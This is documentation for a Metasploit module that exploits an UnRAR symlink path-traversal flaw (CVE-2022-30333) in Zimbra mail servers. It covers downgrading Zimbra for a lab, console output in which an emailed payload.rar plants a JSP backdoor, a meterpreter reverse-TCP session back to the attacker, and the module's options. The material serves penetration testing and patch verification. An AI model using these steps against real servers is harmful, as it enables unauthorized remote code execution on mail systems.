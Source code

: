 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in UnRAR 6.11 and earlier (open source version 6.1.6 and earlier) on Zimbra. You can get the vulnerable version of `unrar` here:

* [Vulnerable unRAR version](https://www.rarlab.com/rar/rarlinux-x64-611.tar.gz)
* [Github commit](https://github.com/pmachapman/unrar/commit/22b52431a0581ab5d687747b65662f825ec03946)

Zimbra is the specific target, because certain Zimbra versions use `unrar` to scan incoming email. Specifically, the following versions of Zimbra, assuming the vulnerable version of `unrar` is installed, are affected:

* Zimbra Collaboration 9.0.0 Patch 24 (and earlier)
* Zimbra Collaboration 8.8.15 Patch 31 (and earlier)

Installing the vulnerable versions of Zimbra is a pain, unfortunately. Currently, the following command works to downgrade Zimbra from the current version:

```
# apt-get install zimbra-patch=8.8.15.1651873147.p31.1-1.u18 zimbra-mta-patch=8.8.15.1651844231.p31.1-1.u18 zimbra-proxy-patch=8.8.15.1651844231.p31.1-1.u18
# reboot
```

And to verify:

```
$ sudo -u zimbra /opt/zimbra/bin/zmcontrol -v
Release 8.8.15.GA.3869.UBUNTU18.64 UBUNTU18_64 FOSS edition, Patch 8.8.15_P31.1.
```

Followed by specifically installing the vulnerable version of `unrar` linked above. Downpatching Zimbra like that is really finnicky, though, so that likely won't always work.

## Verification Steps

To exploit Zimbra, first load the module and generate the .rar file:

```
msf6 > use exploit/linux/http/zimbra_unrar_cve_2022_30333
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_unrar_cve_2022_30333) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_unrar_cve_2022_30333) > set RHOSTS 10.0.0.154
RHOSTS => 10.0.0.154
msf6 exploit(linux/http/zimbra_unrar_cve_2022_30333) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/lnijw.jsp
[+] payload.rar stored at /home/ron/.msf4/local/payload.rar
[+] File created! Email the file above to any user on the target Zimbra server
[*] Trying to trigger the backdoor @ public/lnijw.jsp...
[*] Trying to trigger the backdoor @ public/lnijw.jsp...
[...] waiting [...]
```

Then, email that file to any user (including a non-existent mailbox) on the Zimbra server. Once the payload arrives at Zimbra, Zimbra should try to extract it to check for malware with no user interaction. Metasploit should see the malicious file extracted and get a session:

```
[...]
[*] Trying to trigger the backdoor @ public/lnijw.jsp...
[*] Trying to trigger the backdoor @ public/lnijw.jsp...
[*] Sending stage (3020772 bytes) to 10.0.0.154
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/lnijw.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.154:39710) at 2022-07-27 13:18:03 -0700

meterpreter > getuid
Server username: zimbra
```

## Options

### `FILENAME`

The filename to generate - defaults to `payload.rar`, but can be changed on the filesystem or whatever.

### `TARGET_PATH`

The path (traversal included) where the payload will extract to. The default is the webroot, which is usually pretty safe.

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't execute.

By default, it's a random string with `.jsp` on the end. That should work fine, especially because we can't overwrite files and don't want to use the same payload name more than once.

### `TRIGGER_PAYLOAD`

A boolean, default `true`, that determines whether we use HTTP requests to trigger the .jsp payload. Set to `false` to trigger the payload manually.

### `ListenerTimeout`

The number of seconds to wait for a new session (default = `0`, or infinite).

### `CheckInterval`

The frequency with which to check for the payload on the server. Every `CheckInterval`, it performs an HTTP request to the payload path.
